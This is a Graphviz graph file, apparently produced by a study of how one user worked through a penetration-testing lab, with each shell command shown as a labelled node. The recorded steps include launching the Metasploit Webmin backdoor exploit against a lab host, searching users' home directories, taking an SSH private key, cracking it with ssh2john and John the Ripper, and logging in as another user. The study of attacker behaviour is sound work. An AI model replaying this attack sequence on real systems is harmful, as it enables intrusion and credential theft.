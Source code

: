 // creating graph for user: 69
digraph {
	node [shape=box]
	0 [label="ls A10 "]
	1 [label="cd .. U"]
	2 [label="ls A10 "]
	3 [label="cd etc U"]
	4 [label="ls A10 "]
	5 [label="cd ... U"]
	6 [label="cd .. U"]
	7 [label="ls A10 "]
	8 [label="cd root U"]
	9 [label="ls A10 "]
	10 [label="ssh 172.18.1.5 -p 10000 A16 "]
	11 [label="ssh 172.18.1.5 A16 "]
	12 [label="metasploit U"]
	13 [label="metasploit U"]
	14 [label="service postgresql start U"]
	15 [label="msfsplayload U"]
	16 [label="msfplayload U"]
	17 [label="msf U"]
	18 [label="msfconsole M2 "]
	19 [label="cd .. U"]
	20 [label="cd home U"]
	21 [label="cd root U"]
	22 [label="cd debian U"]
	23 [label="cd U"]
	24 [label="cd .. U"]
	25 [label="exit U"]
	26 [label="msfconsole M2 "]
	27 [label="cd .. U"]
	28 [label="cd root U"]
	29 [label="info U"]
	30 [label="help search A3 "]
	31 [label="search 1.920 A3 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	33 [label="show options M5 "]
	34 [label="set vhost A6 "]
	35 [label="set lhost 10.1.135.83 A6 "]
	36 [label="set lhost 172.18.1.5  A6 "]
	37 [label="set lport 10 000 A6 "]
	38 [label="set lport 10000 A6 "]
	39 [label="exploit M8 "]
	40 [label="set rhost 172.18.1.5 A6 "]
	41 [label="ifconfig U"]
	42 [label="set lhost 10.1.135.83 A6 "]
	43 [label="exploit M8 "]
	44 [label="set rport 10000 A6 "]
	45 [label="set lhost A6 "]
	46 [label="exploit M8 "]
	47 [label="ls A10 "]
	48 [label="ls A10 "]
	49 [label="cd .. U"]
	50 [label="exit U"]
	51 [label="ls A10 "]
	52 [label="ls A10 "]
	53 [label="mfsconsole U"]
	54 [label="ls A10 "]
	55 [label="msfconsole M2 "]
	56 [label="show options M5 "]
	57 [label="set rhost 172.18.1.5 A6 "]
	58 [label="set rport  A6 "]
	59 [label="exit U"]
	60 [label="ls A10 "]
	61 [label="msfconsole M2 "]
	62 [label="set rport 10000 A6 "]
	63 [label="set shost A6 "]
	64 [label="set rhost A6 "]
	65 [label="set rhost 172.18.1.5 A6 "]
	66 [label="set lhost 10.1.135.83 A6 "]
	67 [label="show options M5 "]
	68 [label="use 1.920 A4 "]
	69 [label="set lhost A6 "]
	70 [label="set rhost A6 "]
	71 [label="set rhost 172.18.1.5 A6 "]
	72 [label="set rport 10000 A6 "]
	73 [label="ls A10 "]
	74 [label="cd /root U"]
	75 [label="ls A10 "]
	76 [label="ls A10 "]
	77 [label="cd ..ls A10 "]
	78 [label="cd .. U"]
	79 [label="ls A10 "]
	80 [label="home U"]
	81 [label="cd U"]
	82 [label="ls A10 "]
	83 [label="cd .. U"]
	84 [label="ls A10 "]
	85 [label="cd home U"]
	86 [label="ls A10 "]
	87 [label="cd eve U"]
	88 [label="ls A10 "]
	89 [label="cd .. U"]
	90 [label="ls A10 "]
	91 [label="cd U"]
	92 [label="ls A10 "]
	93 [label="ls A10 "]
	94 [label="cd .. U"]
	95 [label="ls A10 "]
	96 [label="cd home U"]
	97 [label="ls A10 "]
	98 [label="cd alice U"]
	99 [label="ls A10 "]
	100 [label="cd .. U"]
	101 [label="ls A10 "]
	102 [label="cd bob U"]
	103 [label="ls A10 "]
	104 [label="cd U"]
	105 [label="l U"]
	106 [label="ls A10 "]
	107 [label="c d.. U"]
	108 [label="locate A1 A9 A10 A11 A12 A17 "]
	109 [label="find A10 "]
	110 [label="./.bash_historysa U"]
	111 [label="./.bash_history U"]
	112 [label="sudo ./.bash_history U"]
	113 [label="id_rsa U"]
	114 [label="ssh2john.py A14 A16 "]
	115 [label="find ssh2john.py A10 A14 A16 "]
	116 [label="ls A10 "]
	117 [label="cd .. U"]
	118 [label="ls A10 "]
	119 [label="cd home U"]
	120 [label="ls A10 "]
	121 [label="cd eve U"]
	122 [label="ls A10 "]
	123 [label="id U"]
	124 [label="id_rsa eve U"]
	125 [label="ls A10 "]
	126 [label="ls A10 "]
	127 [label="lsa A10 "]
	128 [label="ls a A10 "]
	129 [label="la U"]
	130 [label="ls a A10 "]
	131 [label="list all U"]
	132 [label="list U"]
	133 [label="lsa A10 "]
	134 [label="ssh eve@10.1.17.4 M16 "]
	135 [label="ls A10 "]
	136 [label="cd .. U"]
	137 [label="cd .. U"]
	138 [label="ls A10 "]
	139 [label="john hash A14 "]
	140 [label="john bash A14 "]
	141 [label="/home/eve/.ssh# ssh -l id_rsa eve@172.17.5.4 M16 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	rankdir=LR
}
